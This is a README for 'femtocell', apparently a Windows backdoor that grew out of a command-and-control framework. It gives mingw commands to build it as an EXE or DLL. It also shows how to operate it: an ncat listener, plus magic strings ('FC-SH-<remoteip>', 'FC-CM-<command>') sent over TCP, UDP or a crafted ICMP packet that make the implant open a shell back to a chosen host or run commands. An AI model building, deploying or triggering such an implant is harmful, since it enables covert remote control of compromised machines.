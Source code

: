 # femtocell
This was supposed to be a "Modular C2 Framework"
Now it's not.
It's way cooler now though. Trust me.

## Building
Executable: `x86_64-w64-mingw32-gcc femtocell.c process.c -lws2_32 -o femtocell.exe`

DLL: `x86_64-w64-mingw32-gcc femtocell.c process.c -D DLL -shared -lws2_32 -o femtocell.dll`

## Usage
### TCP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`
`> FC-SH-<remoteip>`
`> FC-CM-<command>`

### UDP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`
`> FC-SH-<remoteip>`
`> FC-CM-<command>`

### ICMP
`sudo nping 192.168.183.152 --icmp --data-string "FC-SH-192.168.10.162 " -c 1 --icmp-code 1`

**include a character after the IP address**
